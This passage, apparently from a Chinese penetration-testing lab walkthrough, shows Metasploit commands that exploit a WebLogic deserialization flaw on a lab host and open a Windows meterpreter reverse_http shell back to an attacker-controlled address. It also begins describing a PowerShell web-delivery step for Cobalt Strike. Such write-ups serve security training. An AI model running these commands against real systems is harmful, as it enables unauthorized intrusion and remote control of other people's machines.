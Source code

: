 ![截图](c50b790f41de300b1a28f112d9bfa673.png)

### （2）方法二：使用msf中weblogic反序列化漏洞的exp去打

```
use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
set rhosts 192.168.111.80
set lhost 192.168.111.128
set target 1                # 默认时unix，而我们目标是Windows
set payload windows/meterpreter/reverse_http # 或 windows/x64/meterpreter/reverse_http
exploit
```

这里要注意两点，一是该模块target默认为unix，我们需要将target改成windows；二是可能因为网络原因，session不能每次都成功创建，如果无法创建session就多run几次试试。

![截图](1795bf9904c30471a61a12ae502d59ce.png)

### （3）方法三：使用web投递powershell上线cs

注：该靶机不出网，所以这里无法使用vps上线CS。

首先创建beacon http监听器
